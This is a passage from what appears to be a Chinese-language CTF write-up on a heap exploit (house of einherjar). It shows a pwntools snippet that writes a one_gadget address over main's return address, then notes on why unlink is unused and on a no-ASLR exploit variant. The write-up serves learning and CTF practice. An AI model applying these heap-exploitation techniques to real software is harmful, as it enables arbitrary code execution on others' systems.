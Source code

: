 ```python

    log.info("write main_return ")
    edit(3, p64(main_return))

    log.info("write onegadget!!!")
    edit(2, p64(one_gadget))

    log.info("write  done!!")
    io.sendlineafter("(CMD)>>> ", "Q")
```

![image-20181210135952524](./img/image-20181210135952524.png)

### 4. why not unlink？

补充一下，在house of einherjar过程中有unlink，为什么不用unlink打呢？在本题中，我们可以控制fake_chunk unlink时的FD和BK，也可以hjack 指针。但是修改指针后，edit时，read的length取决于当前指针指向的地址数据的length，因此修改指针后，无法读入数据。

### 5. another exp:  exp-noaslr-success.py

github repo中exp-noaslr-success.py是关了aslr的exploit。区别在于：默认fake_chunk和P之间的offset是两字节，strcpy写\x00时写了固定的长度。由于length很小，因此unlink时的size check也可以过了，不会大于av->system_mem，后续利用就比较简单，可以随意malloc，直接在unsortedbin中切割一块出来修改指针即可。



